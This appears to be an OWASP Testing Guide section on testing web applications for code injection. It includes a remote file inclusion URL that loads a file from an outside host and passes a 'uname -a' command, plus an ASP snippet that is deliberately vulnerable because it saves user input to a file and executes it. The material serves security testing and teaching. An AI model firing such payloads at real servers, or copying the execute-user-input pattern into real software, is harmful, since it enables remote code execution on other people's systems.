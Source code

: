 # Testing for Code Injection (OTG-INPVAL-012)

## Summary

This section describes how a tester can check if it is possible to enter code as input on a web page and have it executed by the web server.


In [Code Injection](https://www.owasp.org/index.php/Code_Injection) testing, a tester submits input that is processed by the web server as dynamic code or as an included file.  These tests can target various server-side scripting engines, e.g.., ASP or PHP. Proper input validation and secure coding practices need to be employed to protect against these attacks.

## How to Test

### Black Box testing

####Testing for PHP Injection vulnerabilities

Using the querystring, the tester can inject code (in this example, a malicious URL) to be processed as part of the included file:
```
 http://www.example.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a
```

**Result Expected:**

The malicious URL is accepted as a parameter for the PHP page, which will later use the value in an included file.


### Gray Box testing

####Testing for ASP Code Injection vulnerabilities

Examine ASP code for user input used in execution functions. Can the user enter commands into the Data input field?  Here, the ASP code will save the input to a file and then execute it:
```
 <%
 If not isEmpty(Request( "Data" ) ) Then
 Dim fso, f
 'User input Data is written to a file named data.txt
 Set fso = CreateObject("Scripting.FileSystemObject")
 Set f = fso.OpenTextFile(Server.MapPath( "data.txt" ), 8, True)
 f.Write Request("Data") & vbCrLf
 f.close
 Set f = nothing
 Set fso = Nothing

 'Data.txt is executed
 Server.Execute( "data.txt" )

 Else
 %>
 <form>
 <input name="Data" /><input type="submit" name="Enter Data" />
 </form>
 <%
 End If
 %>)))
```

## References

* Security Focus - http://www.securityfocus.com

* Insecure.org - http://www.insecure.org

* Wikipedia - http://www.wikipedia.org

* Reviewing Code for [OS Injection](https://www.owasp.org/index.php/OS_Injection)
<br>
